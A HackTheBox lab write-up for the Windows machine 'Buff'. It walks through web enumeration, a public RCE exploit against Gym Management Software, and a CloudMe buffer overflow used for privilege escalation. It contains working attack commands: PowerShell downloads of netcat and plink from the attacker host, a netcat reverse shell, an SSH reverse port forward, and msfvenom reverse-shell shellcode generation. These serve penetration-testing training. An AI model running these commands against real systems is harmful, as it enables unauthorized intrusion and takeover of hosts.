

# [[HackTheBox] Buff](https://www.hackthebox.eu/home/machines/profile/263)

**Date**: 22/Jul/2020  
**Categories**: [windows](https://github.com/7h3rAm/writeups/search?q=windows&unscoped_q=windows), [oscp](https://github.com/7h3rAm/writeups/search?q=oscp&unscoped_q=oscp), [hackthebox](https://github.com/7h3rAm/writeups/search?q=hackthebox&unscoped_q=hackthebox)  
**Tags**: [enumerate_proto_http](https://github.com/7h3rAm/writeups/search?q=enumerate_proto_http&unscoped_q=enumerate_proto_http), [exploit_gymsystem_rce](https://github.com/7h3rAm/writeups/search?q=exploit_gymsystem_rce&unscoped_q=exploit_gymsystem_rce), [exploit_cloudme_bof](https://github.com/7h3rAm/writeups/search?q=exploit_cloudme_bof&unscoped_q=exploit_cloudme_bof)  

## Overview
This is a writeup for HackTheBox VM [Buff](https://www.hackthebox.eu/home/machines/profile/263). Here are stats for this machine from [machinescli](https://github.com/7h3rAm/machinescli):



### Killchain
Here's the killchain (`enumeration` → `exploitation` → `privilege escalation`) for this machine:


### TTPs
1\. `8080/tcp/http/Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)`: [enumerate_proto_http](https://github.com/7h3rAm/writeups#enumerate_proto_http), [exploit_gymsystem_rce](https://github.com/7h3rAm/writeups#exploit_gymsystem_rce), [exploit_cloudme_bof](https://github.com/7h3rAm/writeups#exploit_cloudme_bof)  


\newpage
## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
``` {.python .numberLines}
# Nmap 7.80 scan initiated Wed Jul 22 21:04:22 2020 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /home/kali/toolbox/repos/writeupsall/htb.buff/10.10.10.198/scans/_quick_tcp_nmap.txt -oX /home/kali/toolbox/repos/writeupsall/htb.buff/10.10.10.198/scans/xml/_quick_tcp_nmap.xml 10.10.10.198
Nmap scan report for 10.10.10.198
Host is up, received user-set (0.34s latency).
Scanned at 2020-07-22 21:04:36 IST for 101s
Not shown: 999 filtered ports
Reason: 999 no-responses
PORT     STATE SERVICE REASON  VERSION
8080/tcp open  http    syn-ack Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
|_http-title: mrb3n's Bro Hut

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jul 22 21:06:17 2020 -- 1 IP address (1 host up) scanned in 114.83 seconds

```

2\. Here's the summary of open ports and associated [AutoRecon](https://github.com/Tib3rius/AutoRecon) scan files:  

  

3\. We find '8080/tcp' to be open and running `Apache httpd 2.4.43`. We start by looking at the webpage and find it be hosting a fitness center portal:  

  

4\. We find multiple pages from the `gobuster` scan results and upon visiting `/contacts.php` page, we find that we are interacting with the `Gym Management Software 1.0` web application:  
``` {.python .numberLines}
cat ./10.10.10.198/scans/tcp_8080_http_gobuster.txt | grep -v 403
  /ADMIN (Status: 301) [Size: 343]
  /About.php (Status: 200) [Size: 5337]
  /Admin (Status: 301) [Size: 343]
  /Contact.php (Status: 200) [Size: 4169]
  /Home.php (Status: 200) [Size: 143]
  /Index.php (Status: 200) [Size: 4969]
  /LICENSE (Status: 200) [Size: 18025]
  /about.php (Status: 200) [Size: 5337]
  /admin (Status: 301) [Size: 343]
  /boot (Status: 301) [Size: 342]
  /contact.php (Status: 200) [Size: 4169]
  /edit.php (Status: 200) [Size: 4282]
  /ex (Status: 301) [Size: 340]
  /feedback.php (Status: 200) [Size: 4252]
  /home.php (Status: 200) [Size: 143]
  /img (Status: 301) [Size: 341]
  /include (Status: 301) [Size: 345]
  /index.php (Status: 200) [Size: 4969]
  /index.php (Status: 200) [Size: 4969]
  /license (Status: 200) [Size: 18025]
  /packages.php (Status: 200) [Size: 7791]
  /profile (Status: 301) [Size: 345]
  /register.php (Status: 200) [Size: 137]
  /up.php (Status: 200) [Size: 209]
  /upload (Status: 301) [Size: 344]
  /upload.php (Status: 200) [Size: 107]

```

  


### Findings
#### Open Ports
``` {.python .numberLines}
8080/tcp   http         Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
```

\newpage
## Phase #2: Exploitation
1\. We use `searchsploit` to find exploits for the webapp and find an unauthenticated remote code execution vulnerability. We inspect the exploit and upon executing it, we get a pseudo-interactive shell on the target machine:  
``` {.python .numberLines}
python 48506.py http://10.10.10.198:8080/

```

  

  

2\. To get a fully interactive shell, we use powershell to transfer netcat binary, start a local netcat listener and then catch the incoming connection:  
``` {.python .numberLines}
nc -nlvp 4433

powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.8:8000/nc.exe','C:\Users\shaun\Desktop\nc.exe')"
C:\Users\shaun\Desktop\nc.exe 10.10.14.8 4433 -e cmd.exe

```

  

  

3\. We use this interactive access to read the `user.txt` flag:  
``` {.python .numberLines}
type C:\Users\shaun\Desktop\user.txt

```

  


## Phase #2.5: Post Exploitation
``` {.python .numberLines}
buff\shaun@BUFF> id
buff\shaun
buff\shaun@BUFF>  
buff\shaun@BUFF> uname
Host Name:                 BUFF
OS Name:                   Microsoft Windows 10 Enterprise
OS Version:                10.0.17134 N/A Build 17134
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
buff\shaun@BUFF>  
buff\shaun@BUFF> ifconfig
Windows IP Configuration
  Ethernet adapter Ethernet0:
    Connection-specific DNS Suffix  . :
    IPv6 Address. . . . . . . . . . . : dead:beef::616c:bed8:4b75:6e17
    Temporary IPv6 Address. . . . . . : dead:beef::7813:413b:2e52:5901
    Link-local IPv6 Address . . . . . : fe80::616c:bed8:4b75:6e17%10
    IPv4 Address. . . . . . . . . . . : 10.10.10.198
    Subnet Mask . . . . . . . . . . . : 255.255.255.0
    Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:9eb2%10
                                        10.10.10.2
buff\shaun@BUFF>  
buff\shaun@BUFF> users
Administrator
shaun
```

\newpage
## Phase #3: Privilege Escalation
1\. We use `winPEAS.exe` to enumerate the target machine and within the `services restricted from the outside` section, find an interesting service bound to `127.0.0.1:8888`:  
``` {.python .numberLines}
netstat -anp tcp

```

  

2\. We find this to be a `CloudMe` process and there's a binary named `CloudMe_1112.exe` within the `C:\Users\shaun\Downloads` directory that hints that the version could be `1.11.2`:  
``` {.python .numberLines}
powershell ps

```

  

  

3\. We find a buffer overflow exploit for this application that could give us elevated privileges if the `CloudMe` process is running as Administrator:  
``` {.python .numberLines}
searchsploit cloudme

```

  

4\. But we cannot connect to this service from our attacking machine. We will need to setup a port forward for this exploit to work. We start the SSH service on our attacking machine, transfer the `plink.exe` binary and setup the port forward:  
``` {.python .numberLines}
service ssh restart
service ssh status
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.8:8000/plink64.exe','C:\Users\shaun\Desktop\plink.exe')"
C:\Users\shaun\Desktop\plink.exe -v -x -a -T -C -noagent -ssh -pw "kali" -R 8888:127.0.0.1:8888 kali@10.10.14.8

```

  

  

5\. We update the exploit with the right shellcode, setup a reverse shell to catch incoming connection and run the exploit:  
``` {.python .numberLines}
msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.8 lport=443 -b "\x00\x0a\x0d" -f python -a x86 --platform windows -e x86/shikata_ga_nai

sudo nc -nlvp 443
python 48389.py

```

  

6\. We immmediately get an elevated reverse shell connection and use it to read the `root.txt` flag:  
``` {.python .numberLines}
type C:\Users\Administrator\Desktop\root.txt

```

  


\newpage


## References
[+] <https://www.hackthebox.eu/home/machines/profile/263>  
